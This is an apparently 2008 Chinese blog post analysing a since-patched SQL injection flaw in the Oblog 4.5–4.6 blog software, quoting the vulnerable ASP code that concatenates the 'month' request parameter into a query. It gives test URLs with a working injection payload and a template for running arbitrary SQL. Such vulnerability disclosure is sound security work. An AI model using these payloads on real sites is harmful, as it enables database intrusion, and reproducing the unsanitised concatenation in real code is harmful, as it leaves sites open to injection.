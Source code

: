 ```yaml
---
title: Oblog最新注入漏洞分析(已修补)
description: Date：2008-5-15Author：Yamato[BCT ]Version：Oblog4.5-4.6sql代码分析：文件In/Class_UserCommand.asp:strMonth=Request("month")//第63行strDay=Request("day")……
date: 2008-07-01 04:43:51
category: 技术文章
tags: ['Oblog', '注入', '漏洞信息', '技术类']
post_id: 537
alias: Oblog-SQL-injection-loophole-latest-Fixes
ViewNums: 3391
---
```


Date：2008-5-15
Author：Yamato[ [BCT](http://www.cnbct.org/) ]
Version：[Oblog](http://www.oblog.cn/) 4.5-4.6 sql

代码分析：

文件In/Class_UserCommand.asp :

strMonth=Request("month") //第63行

strDay=Request("day")

……

Case "month" //第84行

Dim LastDay

G_P_FileName = G_P_FileName & "month&month=" & strMonth

strDay=Left(strMonth,4) & "-" & Right(strMonth,2) & "-01"

mYear=Left(strMonth,4)

mMonth=Right(strMonth,2)

If InStr ("01,03,05,07,08,10,12",mMonth)> 0 Then

LastDay = "31"……

Else //第109行

SqlPart = " And Addtime >='"&strMonth&"01' AND Addtime < '"&strMonth&LastDay&"' "

构造合适的变量strMonth进行注射

测试方法:

http://localhost/oblog/cmd.asp?do= month&month=2008’ and user>0--01

strDay变量从month中获得日期数据，并判断strDay是否为日期数据。所以构造的注射语句为：

http://localhost/oblog/cmd.asp?do= month&month=2008’(自己的sql语句)--01

执行sql语句采用rst.Open strSql,Conn,1,1

不能修改记录集.

